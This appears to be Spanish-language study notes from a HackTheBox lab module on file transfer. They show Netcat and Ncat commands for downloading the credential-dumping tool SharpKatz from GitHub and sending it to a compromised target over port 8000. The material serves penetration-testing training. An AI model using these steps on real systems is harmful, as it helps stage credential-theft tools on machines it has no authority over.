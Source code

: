 # Miscellaneous File Transfer Methods

Hemos cubierto varios métodos para transferir archivos en Windows y Linux, utilizando diferentes lenguajes de programación. A continuación, exploraremos métodos alternativos como el uso de **Netcat**, **Ncat**, y transferencias de archivos mediante sesiones de **RDP** y **PowerShell**.

## **Netcat**

**Netcat** (a menudo abreviado como `nc`) es una utilidad de redes para leer y escribir en conexiones de red utilizando TCP o UDP, lo que permite operaciones de transferencia de archivos. El Netcat original fue lanzado en 1995 por **Hobbit**, pero no ha sido mantenido a pesar de su popularidad. Debido a su flexibilidad, el proyecto Nmap produjo **Ncat**, una reimplementación moderna que soporta SSL, IPv6, proxies SOCKS y HTTP, entre otras funcionalidades.

En este apartado, utilizaremos tanto el Netcat original como Ncat.

> **Nota**: Ncat es utilizado en **PwnBox** de HackTheBox como `nc`, `ncat` y `netcat`.

## Transferencia de Archivos con Netcat y Ncat

La máquina comprometida o la máquina atacante pueden iniciar la conexión, lo cual es útil si un firewall impide el acceso al objetivo. En este ejemplo, transferiremos **SharpKatz.exe** desde nuestro Pwnbox a la máquina comprometida, utilizando dos métodos.

### **Netcat - Máquina Comprometida - Escuchando en el Puerto 8000**

Primero, iniciaremos Netcat (`nc`) en la máquina comprometida, escuchando con la opción `-l`, seleccionando el puerto 8000 con `-p 8000`, y redirigiendo la salida estándar (`stdout`) con `>` hacia el archivo `SharpKatz.exe`.

```bash
victim@target:~$ # Ejemplo usando Netcat Original
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

Si la máquina comprometida está usando Ncat, necesitaremos especificar `--recv-only` para cerrar la conexión una vez que la transferencia haya finalizado.

```bash
victim@target:~$ # Ejemplo usando Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### **Netcat - Máquina Atacante - Enviando Archivo a la Máquina Comprometida**

Desde nuestra máquina atacante, nos conectaremos a la máquina comprometida en el puerto 8000 usando Netcat y enviaremos el archivo **SharpKatz.exe** como entrada (`input`) a Netcat. La opción `-q 0` le indicará a Netcat cerrar la conexión una vez finalizada la transferencia.

```bash
sherlock28@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
sherlock28@htb[/htb]$ # Ejemplo usando Netcat Original
sherlock28@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
